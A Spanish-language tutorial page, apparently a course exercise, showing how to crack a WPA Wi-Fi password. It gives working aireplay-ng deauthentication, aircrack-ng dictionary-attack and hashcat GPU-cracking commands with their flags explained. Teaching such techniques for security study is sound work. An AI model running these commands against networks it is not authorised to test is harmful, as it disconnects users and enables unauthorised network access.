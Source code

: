 # hack-wifi WPA

Si usamos el cifrado WPA es totalmente seguro a los ataques recibidos? Vamos a intentar romper la clave de una red wifi con cifrado WPA. No pongas contraseña muy larga para este práctica, vas a tardar bastante en descifrarla.

![refresca la página para cargar el imágen](imagen/wpa0.png)

Para empezar abrimos el terminal y los 4º primeros pasos son iguales que [Hackear wifi wep](https://nswhuei.github.io/hack-wifi/ActividadRQ3.1).


![refresca la página para cargar el imágen](imagen/wpa1.png)

Empezamos a capturar los paquetes de la red wifi, para descifrar la clave del wpa necesitamos un paquete especial: "**handshake**". Para ello necesitamos que algún equipo de la red se conecte de nuevo, podemos esperar o usar el comando **airepaly** para desconectar un equipo de la red.
>aireplay-ng -0 2 -a 24:7F:20:02:63:B6 -c F8:87:F1:BD:76:24 wlan1mon

```-0``` El código de empezar el ataque de "Deautenticación". [Aireplay](https://www.aircrack-ng.org/doku.php?id=es:aireplay-ng)

```-a``` El bssid del router

```-c``` El bssid del equipo que vas a desconectar

![refresca la página para cargar el imágen](imagen/wpa12.png)

Una vez conseguido el paquete handshake ya podemos empezar a descifrar la clave. Para ello necesitamos un diccionario y en kali lleva por defecto uno, lo vamos a descomprimir con el siguiente comando.
>gzip -d /usr/share/wordlists/rockyou.txt.gz

Y empezamos a descifrar la clave.
>aircrack-ng -a2 -b 24:7F:20:02:63:B6 -w /usr/share/wordlists/rockyou.txt ./*.cap

```-a2``` El cifrado de WPA.

```-b``` El bssid del router

```-w``` La ruta del diccionario.

Y esperamos a que se descifre la clave. 

![refresca la página para cargar el imágen](imagen/wpa4.png)

Ya he conseguido la clave de la red wifi cifrado por wpa.

Además de descifrar con el **CPU** podemos usar nuestro **GPU** para descifrar claves con el comando **hashcat**.Para ello necesitas tener instalado el driver de tu **GPU**.

![refresca la página para cargar el imágen](imagen/hashcat1.png)

Necesitamos cambiar el formato de los archivos .cap por hccap con el comando:
>aircrack-ng ./#origen -J ./#destino

```-J``` Crear archivos hccap.

![refresca la página para cargar el imágen](imagen/hashcat12.png)
>hashcat -m 2500 ./06.hccap /#el diccionario.

```-m``` El código del método de cifrado:
![refresca la página para cargar el imágen](imagen/hashcat3.png)

[Volver al Página de inicio](https://nswhuei.github.io/hack-wifi/)
